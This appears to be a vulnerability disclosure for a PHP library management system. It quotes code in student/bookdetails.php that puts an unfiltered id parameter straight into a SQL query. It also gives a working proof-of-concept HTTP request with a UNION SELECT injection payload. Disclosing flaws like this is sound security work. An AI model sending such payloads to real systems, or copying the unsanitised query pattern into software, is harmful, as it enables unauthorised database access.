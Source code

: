 ### Vulnerability file address

`student/bookdetails.php` from line 82

The incoming $x variable is not filtered, there is sql injection

```php
......
......
......
$x=$_GET['id'];
$sql="select * from LMS.book where BookId='$x'";
$result=$conn->query($sql);
$row=$result->fetch_assoc();  
......
......
......
```

### POC

After registering a user, you can access it after logging in

```http
GET /student/bookdetails.php?id=1'+union+select+1,2,3,4,5,6,7,8,9,version()+%23 HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=993rioh082lipfivdpqf1hrvs3
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220702200726134](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220702200726.png)

